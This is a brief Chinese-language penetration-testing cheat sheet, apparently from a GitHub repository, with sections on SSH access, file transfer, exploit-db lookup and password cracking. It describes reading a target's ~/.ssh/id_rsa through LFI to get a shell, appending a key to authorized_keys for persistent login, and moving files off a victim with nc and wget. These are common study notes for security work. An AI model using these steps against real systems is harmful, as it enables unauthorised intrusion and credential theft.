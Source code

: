 ### ssh

查看目标主机登陆要求:`ssh <ip> -v`

通过LFI等方式读取`~/.ssh/id_rsa`文件,如果目标允许只用密钥登陆,则可GetShell.注意:调整密钥权限

将自身的`id_rsa.pub`追加到`~/.ssh/authorized_keys`中即可登录

----

## 文件传输

本地python监听:`python3 -m http.server [port]`

远程wget下载:`wget <url> -O <output_file>`

nc传输: Victim: `nc <RHOST> <RPORT> [</>] <file> [-q 1]`

## 漏洞利用

### 获取exploit

#### exploit-db

https://www.exploit-db.com/)

`searchsploit <EXP_Name>`

本地路径:`/usr/share/exploitdb/exploits`

----

## 密码破解

[在线破解-crackstation](https://crackstation.net/)

---

### 密码字典

Kali自带:	rockyou.txt

Seclists文件

---

#### 生成密码字典

##### crunch

`crunch <min> <max> <magic_characters> -o.dic`

递归生成每一个字符的序列

注:可设置密码格式,略

---